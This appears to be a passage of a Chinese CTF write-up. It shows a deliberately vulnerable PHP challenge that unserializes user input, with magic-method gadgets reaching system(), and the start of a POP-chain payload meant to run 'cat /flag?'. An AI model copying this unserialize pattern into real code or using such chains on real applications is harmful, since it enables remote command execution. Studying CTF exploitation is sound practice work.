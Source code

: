 ```php
}

class B{
    public $p;
    public function __destruct(){
        $p = $this->p;
        echo $this->a->$p;
    }
}
if(isset($_GET['pop'])){
    $pop = $_GET['pop'];
    $o = unserialize($pop);
    throw new Exception("no pop");
}
```

这个题也挺离谱，写的是困难难度，结果一下子就打通了

```php
<?php
class Fun{
    private $func = 'system';
    public function __call($f,$p){
        call_user_func($this->func,$f,$p);
    }
    public function __wakeup(){
        $this->func = '';
        die("Don't serialize me");
    }
}

class Test{
    public function getFlag(){
        system("cat /flag?");
    }
    public function __call($f,$p){
        phpinfo();
    }
    public function __wakeup(){
        echo "serialize me?";
    }
}

class A{
    public $a;
    public function __get($p){
        if(preg_match("/Test/",get_class($this->a))){
            return "No test in Prod\n";
        }
        return $this->a->$p();
    }
}

class B{
    public $p;
    public function __destruct(){
        $p = $this->p;
        echo $this->a->$p;
    }
}

$a = new B();
$a->a = new A();
$a->p = "cat /flag?";
```
